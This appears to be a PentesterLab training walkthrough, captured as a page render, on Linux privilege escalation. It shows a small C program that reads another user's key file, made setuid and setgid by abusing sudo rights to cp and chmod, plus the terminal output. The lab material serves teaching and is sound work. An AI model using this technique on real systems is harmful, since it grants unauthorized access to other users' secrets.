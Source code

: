 
A few years ago, you could exploit this configuration issue by copying a shell (bash a long time ago and ksh more recently) and adding the setuid bit to it. [Un]fortunately most shells will now prevent this attack. But we can still do something similar by writing our own program.


pentesterlab@fb34ccb8e769:/tmp$ sudo -l
Matching Defaults entries for pentesterlab on fb34ccb8e769:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User pentesterlab may run the following commands on fb34ccb8e769:
    (victim) /bin/chmod, /bin/cp






To create this program, you can use the following C code:


int main(void)
{
system("cat /home/victim/key.txt");
}


You can then compile it:




gcc -o /tmp/[FILE] [FILE].c


Where [FILE] is the filename.


Then you will need to copy it using the sudo, this will allow you to create a file owned by the victim user. Once you copied it, you should be able to set the setuid and setgid flags on it using:




chmod +xs [FILE]


Where [FILE] is the filename.


Now you can run this program as the pentesterlab and you should be able to get access to the key.txt file thanks to the setgid
pentesterlab@fb34ccb8e769:/tmp$ sudo -u victim /bin/cp test.o victim.o
pentesterlab@fb34ccb8e769:/tmp$ ls -l
total 48
drwxr-xr-x 3 root         root         4096 Jun 17  2015 npm-15-Z7kY83XR
drwxr-xr-x 3 root         root         4096 Apr  6 05:40 npm-7-2596b8a1
-rw-r--r-- 1 pentesterlab pentesterlab   52 Jun 11 01:14 setgit30
-rwsr-sr-x 1 victim       victim         52 Jun 11 01:17 setvictimgid30
-rwsr-sr-x 1 victim       victim         52 Jun 11 01:19 setvictimgid30.c
-rwxr-xr-x 1 pentesterlab pentesterlab 6728 Jun 11 01:20 test
-rw-r--r-- 1 pentesterlab pentesterlab   58 Jun 11 01:16 test.c
-rwxr-xr-x 1 pentesterlab pentesterlab 6712 Jun 11 01:16 test.o
-rwxr-xr-x 1 victim       victim       6712 Jun 11 01:21 victim.o
